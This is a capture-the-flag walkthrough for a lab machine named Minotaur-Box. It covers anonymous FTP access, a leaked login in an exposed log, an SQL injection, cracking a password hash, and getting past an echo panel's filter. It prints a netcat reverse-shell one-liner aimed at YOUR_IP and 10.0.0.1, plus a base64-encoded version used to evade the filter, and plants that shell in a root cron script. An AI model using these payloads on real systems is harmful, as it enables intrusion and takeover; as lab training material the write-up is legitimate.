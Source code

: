 # Writeup Minotaur-Box

## Nmap scan

```
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x   3 nobody   nogroup      4096 Jun 15 14:57 pub
80/tcp   open  http     Apache httpd 2.4.48 ((Unix) OpenSSL/1.1.1k PHP/8.0.7 mod_perl/2.0.11 Perl/v5.32.1)
|_http-server-header: Apache/2.4.48 (Unix) OpenSSL/1.1.1k PHP/8.0.7 mod_perl/2.0.11 Perl/v5.32.1
443/tcp  open  ssl/http Apache httpd 2.4.48 ((Unix) OpenSSL/1.1.1k PHP/8.0.7 mod_perl/2.0.11 Perl/v5.32.1)
|_http-server-header: Apache/2.4.48 (Unix) OpenSSL/1.1.1k PHP/8.0.7 mod_perl/2.0.11 Perl/v5.32.1
| ssl-cert: Subject: commonName=localhost/organizationName=Apache Friends/stateOrProvinceName=Berlin/countryName=DE
| Not valid before: 2004-10-01T09:10:30
|_Not valid after:  2010-09-30T09:10:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
```

## FTP Server
you see you can login into ftp anonymously

you see these files -> download them 

```
drwxr-xr-x   2 root     root         4096 Jun 15 19:49 .secret
-rw-r--r--   1 root     root          141 Jun 15 14:57 message.txt
```

if you cd to .secret you get the flag and a note with a hint for the future

```
└─# cat keep_in_mind.txt 
Not to forget, he forgets a lot of stuff, that's why he likes to keep things on a timer ... literally
-- Minotaur
```

## Web Server
lets focus on the web server now:
doing a quick dir-scan shows that the /logs dir is exposed to the public
you can find a post request log at http://[Machine_IP]/logs/post/post_log.log
where you can find a valid password and user name to login with
email=Daedalus&password=g2e55kh4ck5r

you get presented with an api interface where you can query for user data:
lets try querying for our user Daedalus
you will get back the name and hashed password of him
if you look at inspect element theres a hint hidden it tells you something about permissions ....

``` <!-- Minotaur!!! Told you not to keep permissions in the same shelf as all the others especially if the permission is equal to admin --> ```

if you look at the structure of the parameters you see at the naming pattern (namePeoplenameCreature) there may be a parameter called permissionPeople
so lets try out an sql-injection with this information

``` Daedalus' OR permissionPeople='admin ```

you get this result gives you a new user: 

```5    M!n0taur    1765db9457f496a39859209ee81fbda4 ```

you can either crack this hash (rockyou list), or you can use a website like crackstation
now login with the new userinformation you got
user: M!n0taur password: aminotauro
and a link to an pannel called "secret echo pannel"
there you can echo some your input out witch internally executes the echo command but you somehow have to bypass the filters and gain RCE
when you find out `` is permitted and you execute commands with it (you have to execute them severalty at ';' because this char is filtered )
the best way to bypass the filter is just with a base64 encoded reverse shell payload

```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR_IP 4243 >/tmp/f ```

to this

```cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgWU9VUl9JUCA0MjQzID4vdG1wL2Y=```

since the equals sign is also filtered you will have to remove it witch leaves you with this payload

```echo "cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgWU9VUl9JUCA0MjQzID4vdG1wL2Y" | base64 -d | bash```

then you get access to to machine and find the user flag located in /home/user/

## Machine 
you see theres cronjob running on a file owned by root(location: /timer/timer.sh) but writeable by everyone
add your reverse shell (use a different port this time)

```rm /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4243 >/tmp/f```

the location of the root flag is in the root folder



